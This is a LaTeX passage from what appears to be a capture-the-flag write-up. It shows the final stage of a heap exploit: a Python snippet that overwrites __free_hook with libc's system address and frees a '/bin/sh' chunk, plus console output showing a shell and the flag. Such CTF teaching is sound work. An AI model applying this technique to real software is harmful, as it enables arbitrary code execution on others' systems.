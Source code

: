 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Overwrite the \_\_free\_hook entry}
What is left to be done is overwriting the \texttt{\_\_free\_hook} entry with the \texttt{system} address to hijack the control flow, code \ref{lst:hijack-control-flow}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Control flow hijacking with python script.},captionpos=b,label={lst:hijack-control-flow}]
    # Overwrite __free_hook
    print("[5]-Overwriting __free_hook with the system address...")
    new_article("powned", 123, p64(libc.symbols['system'])*3)~\label{line:p-overwrite-free-hook}~
    
    # Hijack the control flow
    delete_article(7)~\label{line:p-hijack-control-flow}~
    time.sleep(1)
    
    print("[6]-Getting the flag:")
    p.sendline('cat flag')
    p.interactive()
\end{lstlisting}
\end{minipage}
To achieve this goal it is sufficient to allocate a new chunk of whatever size, whose payload is the \texttt{system} address, line \ref{line:p-overwrite-free-hook}. To avoid dealing with alignment purposes, we can inject several time the same address. At this point hijacking the control flow is as simple as deleting the chunk whose name is \textit{``/bin/sh''}, line \ref{line:p-hijack-control-flow}. As shown in code \ref{lst:get-the-flag}, a shell is spawn, we can finally get our flag!\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Getting the flag.}, 
captionpos=b,label={lst:get-the-flag}]
xman@ubuntu:/$ ./x.py
...
[3]-Preparing house of force...
[4]-Overwriting the top chunk size...
[5]-Overwriting __free_hook with the system address...
[6]-Getting the flag:
[*] Switching to interactive mode
/bin/sh was deleted
flag{wow_you_got_the_heap+power!}
$  
\end{lstlisting}
\end{minipage}
\end{document}
